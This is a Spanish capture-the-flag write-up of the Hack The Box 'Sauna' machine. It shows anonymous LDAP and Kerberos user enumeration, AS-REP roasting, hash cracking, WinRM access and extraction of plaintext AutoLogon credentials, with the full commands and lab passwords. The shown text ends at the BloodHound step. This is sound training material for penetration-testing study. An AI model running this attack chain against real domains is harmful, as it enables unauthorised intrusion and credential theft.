# Sauna — Hack The Box (práctica CPTS)

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows (Active Directory)
**Certificación:** Práctica adicional para el CPTS (Certified Penetration Testing Specialist)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · Enumeración LDAP anónima · OSINT web (página de equipo) · Generación de diccionario de usuarios · `kerbrute` · **AS-REP Roasting** (`GetNPUsers`) · Hashcat (modo 18200) · Evil-WinRM · Credenciales de AutoLogon en el registro (WinPEAS) · BloodHound · **DCSync** (`secretsdump`) · Pass-the-hash con `psexec` → SYSTEM
**Idioma:** Español — [🇬🇧 English version](./Sauna_Writeup_EN.md)

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración — LDAP anónimo y OSINT web](#2-enumeración--ldap-anónimo-y-osint-web)
3. [Acceso inicial — AS-REP Roasting](#3-acceso-inicial--as-rep-roasting)
4. [Obtención de shell](#4-obtención-de-shell)
   - [Escalada de privilegios — AutoLogon y DCSync](#escalada-de-privilegios--autologon-y-dcsync)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Glosario de herramientas y comandos](#7-glosario-de-herramientas-y-comandos)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.95.180
```

> 🛠️ **`ping`** — comprueba disponibilidad del host por ICMP. TTL **127** → sistema **Windows**.



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.95.180
```

> 🛠️ **`nmap -sS -Pn -vvv --min-rate 5000 --open -n -p-`** — escaneo SYN de los 65535 puertos: `-sS` (sigiloso), `-Pn` (ignora el estado del ping), `--min-rate 5000` (acelera el envío), `--open` (solo puertos abiertos), `-n` (sin resolución DNS).



```bash
enum-nmap AllPorts
```

> 🛠️ **`enum-nmap`** — script propio que resume la salida de Nmap: IP, TTL, SO estimado y lista de puertos lista para el siguiente `-p`.



> 💡 20 puertos abiertos, entre ellos **53 (DNS), 88 (Kerberos), 389/636/3268/3269 (LDAP/LDAPS/Global Catalog), 445 (SMB) y 5985 (WinRM)** — el conjunto de servicios característico de un **controlador de dominio de Active Directory**, además del puerto 80 con un sitio web corporativo.

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49677,49678,49679,49700,49719 -oN Ports 10.129.95.180
```

> 🛠️ **`-sCV`** combina `-sC` (scripts por defecto de Nmap) con `-sV` (detección de versión de servicio).



```
80/tcp  open  http  Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
389/tcp open  ldap  Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL, ...)
Service Info: Host: SAUNA; OS: Windows
```

> 💡 Dominio **`EGOTISTICAL-BANK.LOCAL`**, host **`SAUNA`**. A diferencia de otras máquinas AD típicas, aquí **no se dan credenciales iniciales** — hay que obtener un primer usuario válido desde cero.

## 2. Enumeración — LDAP anónimo y OSINT web

### Enumeración LDAP sin credenciales

```bash
ldapsearch -x -H ldap://10.129.95.180 -s base namingcontexts
```

> 🛠️ **`ldapsearch -x`** — cliente de línea de comandos para consultar LDAP; `-x` fuerza autenticación simple (aquí, anónima, sin usuario/contraseña). `-s base namingcontexts` pregunta únicamente por los *naming contexts* del servidor — el primer paso para saber qué particiones del directorio existen, sin necesidad de autenticarse.



```bash
ldapsearch -x -H ldap://10.129.95.180 -b "DC=EGOTISTICAL-BANK,DC=LOCAL"
```

> 🛠️ **`-b "DC=..."`** — fija el *base DN* de la búsqueda al dominio completo, devolviendo (si el *bind* anónimo tiene permisos de lectura, como ocurre aquí) todo el árbol de objetos visible: usuarios, grupos, equipos, etc.



> 💡 Muchos controladores de dominio heredan, por configuración por defecto o por error de hardening, permisos de lectura anónima sobre ciertos atributos LDAP. Es la vía de enumeración de usuarios más silenciosa posible: no genera ningún evento de autenticación fallida ni de Kerberos.

Entre los resultados aparece un usuario:



```
CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
```

### Generando un diccionario de nombres de usuario

Con un nombre completo, generamos un diccionario de los formatos de *username* más habituales en entornos Active Directory:



```
hugosmith
hsmith
h.smith
shugo
smith
hugo.smith
```

> 💡 Las organizaciones suelen seguir una convención fija de nombre de usuario (inicial+apellido, nombre.apellido, etc.). Encontrar **un solo** nombre completo real permite deducir el formato y generar diccionarios de usuarios plausibles para el resto de la plantilla — la base de cualquier ataque de enumeración de usuarios en AD.

Validamos los candidatos contra Kerberos:

```bash
kerbrute userenum --dc 10.129.95.180 --domain EGOTISTICAL-BANK.LOCAL users.txt
```

> 🛠️ **`kerbrute userenum`** — abusa de una particularidad del protocolo Kerberos: el KDC responde de forma **distinta** a una petición de autenticación (`AS-REQ`) según si el usuario existe o no (`KDC_ERR_C_PRINCIPAL_UNKNOWN` si no existe), **sin necesidad de contraseña correcta**. Esto permite enumerar usuarios válidos de forma rápida y, a diferencia de intentos de login reales, sin generar eventos de "contraseña incorrecta" en la mayoría de configuraciones.



```
[+] VALID USERNAME: hsmith@EGOTISTICAL-BANK.LOCAL
```

### Ampliando la enumeración desde el sitio web

Exploramos el sitio web corporativo del puerto 80:


La página `about.html` expone al equipo completo con nombres y apellidos:



```
Fergus Smith, Shaun Coins, Hugo Bear, Bowie Taylor, Sophie Driver, Steven Kerb
```

> 💡 Este es un ejemplo clásico de **OSINT pasivo entregado por la propia organización**: la página "About Us", pensada para marketing/RRHH, revela directamente la plantilla completa de empleados — información que, combinada con el formato de usuario ya confirmado, permite generar un diccionario de cuentas reales sin tocar ningún sistema interno.

Con el formato ya confirmado (inicial del nombre + apellido), generamos el diccionario completo:



```
hsmith
fsmith
hbear
skerb
btylor
scoins
sdriver
```

```bash
kerbrute userenum --dc 10.129.95.180 --domain EGOTISTICAL-BANK.LOCAL users.txt
```



```
[+] VALID USERNAME: hsmith@EGOTISTICAL-BANK.LOCAL
[+] VALID USERNAME: fsmith@EGOTISTICAL-BANK.LOCAL
```

## 3. Acceso inicial — AS-REP Roasting

### ¿Qué es el AS-REP Roasting y por qué funciona?

En un inicio de sesión Kerberos normal, el cliente debe **demostrar que conoce la contraseña** del usuario cifrando una marca de tiempo con su clave derivada de contraseña, como parte del `AS-REQ` inicial (esto se llama **preautenticación**, controlada por el flag `DONT_REQUIRE_PREAUTH` del atributo `userAccountControl`). Si una cuenta tiene esa preautenticación **deshabilitada**, el KDC responde directamente con un `AS-REP` que incluye una porción cifrada con la clave derivada de la contraseña del usuario — **sin que el atacante necesite conocer ni probar ninguna contraseña**.

Esa porción cifrada es crackeable offline exactamente igual que un hash de contraseña: si se consigue recuperar la contraseña en claro que, al derivarse, produce esa clave, el ataque tiene éxito. A esto se le llama **AS-REP Roasting**, y solo requiere conocer el nombre de un usuario con preautenticación deshabilitada — nada de credenciales previas.

```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt
```

> 🛠️ **`GetNPUsers.py`** (Impacket) — para cada usuario de la lista indicada, solicita un `AS-REQ` sin preautenticación y comprueba la respuesta del KDC: si el usuario tiene `DONT_REQUIRE_PREAUTH` activado, extrae el hash AS-REP (`$krb5asrep$23$...`); si no, reporta el error correspondiente sin comprometer nada. `-no-pass` indica que no disponemos de ninguna contraseña.



```
[-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:671f53f5ab673ece...
```

`hsmith` tiene la preautenticación habilitada (protegido), pero `fsmith` no — obtenemos su hash AS-REP.

### Crackeando el hash AS-REP

```bash
hashcat --example-hashes | grep krb5asrep -B 15
```

> 🛠️ **`hashcat --example-hashes`** — lista todos los formatos de hash soportados con un ejemplo; filtrando por `krb5asrep` identificamos el modo numérico exacto (**18200**, "Kerberos 5, etype 23, AS-REP") sin tener que consultar documentación externa.



```bash
hashcat -m 18200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

> 🛠️ **`hashcat -m 18200 -a 0`** — ataque de diccionario (`-a 0`) sobre un hash AS-REP (modo `18200`) contra `rockyou.txt`.




```
fsmith:Thestrokes23
```

## 4. Obtención de shell

```bash
evil-winrm -u 'fsmith' -p 'Thestrokes23' -i 10.129.95.180
```

> 🛠️ **`evil-winrm`** — cliente para sesiones de administración remota de Windows (WinRM), equivalente en espíritu a SSH pero para PowerShell remoto.



Shell obtenida. Primera flag:

```
dir ../Desktop
```



`user.txt` (34 bytes) confirmado en el escritorio de `FSmith`.

```
whoami /all
```

> 🛠️ **`whoami /all`** — combina información de usuario, grupos y privilegios en una sola salida; útil para descartar rápidamente privilegios interesantes en el token actual.



Comprobamos qué otras cuentas tienen acceso remoto a la máquina:

```
net localgroup "Remote Management Users"
```

> 🛠️ **`net localgroup "Remote Management Users"`** — lista los miembros del grupo local que habilita el acceso vía WinRM; útil para descubrir otras cuentas de servicio con las que pivotar.



```
FSmith
svc_loanmgr
```

## Escalada de privilegios — AutoLogon y DCSync

Subimos **WinPEAS** para automatizar la búsqueda de vectores de escalada:

```bash
locate winPEASx64.exe
```



```
upload /usr/share/peass/winpeas/winPEASx64.exe
```

> 🛠️ **`upload`** — comando propio de Evil-WinRM que transfiere un fichero local a la víctima a través de la sesión WinRM ya autenticada.



```
./winPEASx64.exe
```

> 🛠️ **WinPEAS** — script de enumeración automática de vectores de escalada de privilegios en Windows: credenciales en el registro, servicios mal configurados, tareas programadas, AutoLogon, etc.



### ¿Qué son las credenciales de AutoLogon?

Entre los hallazgos, WinPEAS detecta credenciales de **AutoLogon**:



```
DefaultDomainName : EGOTISTICALBANK
DefaultUserName   : EGOTISTICALBANK\svc_loanmanager
DefaultPassword   : Moneymakestheworldgoround!
```

> 💡 La función de **AutoLogon** de Windows (pensada para iniciar sesión automáticamente en el arranque, sin pedir contraseña) guarda esas credenciales **en texto plano** en el registro, bajo `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` (`DefaultUserName`/`DefaultPassword`). Cualquier usuario con permisos de lectura sobre esa clave del registro puede extraer la contraseña directamente — es una de las primeras cosas que comprueba cualquier script de enumeración de post-explotación en Windows.

Con esas credenciales (cuenta `svc_loanmgr`, también en `Remote Management Users`):

```bash
evil-winrm -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -i 10.129.95.180
```



### Enumerando el dominio con BloodHound

```bash
bloodhound-python -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -d EGOTISTICAL-BANK.LOCAL -ns 10.129.95.180 -c All --zip
```

> 🛠️ **`bloodhound-python`** — recolector de BloodHound para Linux: recorre el dominio vía LDAP/SMB/RPC con las credenciales indicadas y vuelca toda la información de usuarios, grupos, ACLs, sesiones y relaciones de confianza en ficheros JSON, comprimidos con `--zip`.



```bash
bloodhound-start
```

> 🛠️ **BloodHound (interfaz gráfica)** — analiza el grafo de relaciones del dominio para encontrar rutas de ataque que no son evidentes a simple vista (permisos ACL encadenados, pertenencias a grupos anidadas, etc.). Requiere una base de datos Neo4j, que `bloodhound-start` arranca automáticamente.



Subimos el ZIP generado por el recolector:

